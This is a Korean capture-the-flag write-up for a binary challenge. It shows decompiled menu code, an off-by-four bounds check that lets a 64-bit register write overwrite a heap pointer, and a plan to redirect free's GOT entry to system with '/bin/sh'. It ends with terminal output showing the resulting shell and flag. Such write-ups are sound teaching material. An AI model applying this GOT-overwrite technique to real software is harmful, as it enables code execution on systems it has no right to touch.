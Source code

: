 ## solve

#### menu
```
[1] mov dword register, register
[2] mov dword memory, register
[3] mov dword register, memory
[4] mov dword register, $data
[5] mov qword register, register
[6] mov qword memory, register
[7] mov qword register, memory
[8] mov qword register, $data
[9] sub register, register
[10] sub register, memory
[11] sub register, $data
[12] add register, register
[13] add register, memory
[14] add register, $data
[15] push $string
[16] push dword $data
[17] pop $string
[18] pop dword $data
[19] int 0x80
[20] Exit..
```
</br>

#### 8번 메뉴
``` c
//8번 메뉴
case 8:
  write(1, "Input dest : ", 0xDu);
  read(0, &s, 0x14u);
  while ( strcmp((&s1)[4 * v2], &s) )
  {
    if ( ++v2 > 7 )
    {
      write(1, "Can't find dest\n", 0x10u);
      return *MK_FP(__GS__, 20) ^ v10;
    }
  }
  if ( v2 <= 3 )
  {
    write(1, "You can only use 64-bit registers\n", 0x22u);
    return *MK_FP(__GS__, 20) ^ v10;
  }
  write(1, "Input data : ", 0xDu);
  __isoc99_scanf("%llu", &v6);
  sub_80488B6(8 * v2 + 134530304, v6);
  continue;  
```

* 8번 메뉴를 통해 rdx에 값을 저장할 수 있다. 

</br>

#### 6번 메뉴
``` c
//6번 메뉴
case 6:
  write(1, "Input dest : ", 0xDu);
  read(0, &s, 0x14u);
  v4 = strtoul(&s, 0, 16);
  if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
  {
    write(1, "Out-Of-Bounds!!\n", 0x10u);
    exit(0);
  }
  write(1, "Input source : ", 0xFu);
  read(0, &s2, 0x14u);
  while ( strcmp((&s1)[4 * v3], &s2) )
  {
    if ( ++v3 > 7 )
    {
      write(1, "Can't find source\n", 0x12u);
      return *MK_FP(__GS__, 20) ^ v10;
    }
  }
  if ( v3 <= 3 )
  {
    write(1, "You can only use 64-bit registers\n", 0x22u);
    return *MK_FP(__GS__, 20) ^ v10;
  }
  sub_8048858(v4, &dword_804C500[2 * v3]);
  continue;
```

* 여기서 레지스터에 있는 값을 메모리에 저장한다. 리틀엔디안 방식으로 저장이된다.

</br>

## Vulnerabilities
```
if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
```
* 6번 메뉴에서 범위를 검사하는데 0x804C4DC를 넘으면 안된다.</br>

```
buf = malloc(0x100u);
ptr = malloc(0x400u);
dword_804C4E0 = buf;
dword_804C4E4 = ptr;
```

* 바로 뒤의 804C4e0에는 buf의 주소인 힙의 주소가 저장되어 있는데, 만약 6번 메뉴에서 memory의 주소가 804C4DC로 지정을 하게되면 , 리틀엔디안 방식으로 edx가 아닌 rdx를 이용하기 때문에 804C4e0를 overwrite 할 수 있다.

* 따라서 804C4e0에 free함수의 got주소를 overwrite하고 난 뒤, modify메뉴를 이용해서 buf의 값은 system함수의 주소로, ptr의 값은 '/bin/sh\x00' 으로 수정한다. 그리고 종료를 하게 되면 free(ptr)이 호출되고, system('/bin/sh\x00') 이 호출된다.

</br>

## Result
```
~/machome/ctf/doubles_ctf/pwn-400(master*) » python exploit.py k                                     stitch@certis
 OK..
[ Virtual Assembly System ]
[1] Show Examples
[2] Generate Assembly
[3] Modify Name and Description
[4] Help
[5] Exit
-> $ 5
Bye Bye~~
\x00$ id
uid=1002(prob02) gid=1002(prob02) groups=1002(prob02)
$ ls /home/prob02
asm
flag
$ cat /home/prob02/flag
flag{4sm_1s_s0_h4rd}
$
```
